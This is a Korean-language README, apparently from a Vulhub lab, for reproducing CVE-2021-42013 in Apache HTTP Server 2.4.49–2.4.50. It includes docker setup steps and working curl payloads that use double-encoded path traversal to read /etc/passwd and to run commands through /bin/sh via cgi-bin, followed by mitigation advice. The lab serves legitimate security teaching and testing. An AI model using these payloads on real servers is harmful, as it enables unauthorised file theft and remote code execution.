



# Apache HTTP Server 경로 조작 및 파일 유출 취약점 (CVE-2021-42013)

[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-42013/README.zh-cn.md)

Apache HTTP Server Project는 UNIX, Windows 등 현대 운영체제를 위한 오픈소스 HTTP 서버를 개발하고 유지하는 프로젝트입니다.

CVE-2021-42013은 [CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)의 불완전한 패치로 인해 발생한 취약점으로, 공격자는 경로 조작(Path Traversal) 공격을 통해 Alias 계열 지시자로 설정된 디렉터리 외부의 파일로 URL을 매핑할 수 있습니다.

이 취약점은 Apache HTTP Server 2.4.49 및 2.4.50 버전에 영향을 미치며, 그 이전 버전에는 해당되지 않습니다.

참고 자료:

* https://httpd.apache.org/security/vulnerabilities_24.html
* https://twitter.com/roman_soft/status/1446252280597078024

## 취약 환경 구성

아래 명령어를 실행하여 취약한 Apache HTTP Server를 실행합니다.
```
docker compose build
docker compose up -d
```

> 참고: Vulhub 원본은 베이스 이미지로 `vulhub/httpd:2.4.50`을 사용하지만, 본 환경은 Docker 공식 이미지 `httpd:2.4.50`으로 교체하여 외부 이미지 의존성을 제거했습니다. `docker compose build` 시 자동으로 다운로드됩니다.

서버가 시작되면 `http://your-ip:8080` 에서 Apache HTTP Server의 기본 페이지(`It works!`)를 확인할 수 있습니다.


## 공격 (Exploit)

Apache HTTP Server 2.4.50은 CVE-2021-41773의 페이로드(예: `http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`)를 패치했지만, 이는 불완전했습니다.

`.%%32%65`를 사용하여 패치를 우회합니다. (`/icons/`는 반드시 존재하는 디렉터리여야 합니다.)

```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

`/etc/passwd` 파일이 성공적으로 유출됩니다.



서버에서 cgi 또는 cgid 모듈이 활성화되어 있으면, 이 경로 조작 취약점을 통해 임의 명령 실행이 가능합니다.

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```



## 대응 방안

* **패치 적용(권장):** CVE-2021-41773과 CVE-2021-42013을 모두 해결한 Apache HTTP Server 2.4.51 이상으로 업그레이드합니다.
* **디렉터리 접근 제어 강화:** 모든 `<Directory />` 블록에 기본 정책인 `Require all denied`를 명시하여 문서 루트 외부로의 경로 조작을 차단합니다.
* **CGI 모듈 비활성화:** 업무상 필요하지 않다면 `mod_cgi` / `mod_cgid`를 비활성화하여 RCE 위험을 제거합니다.
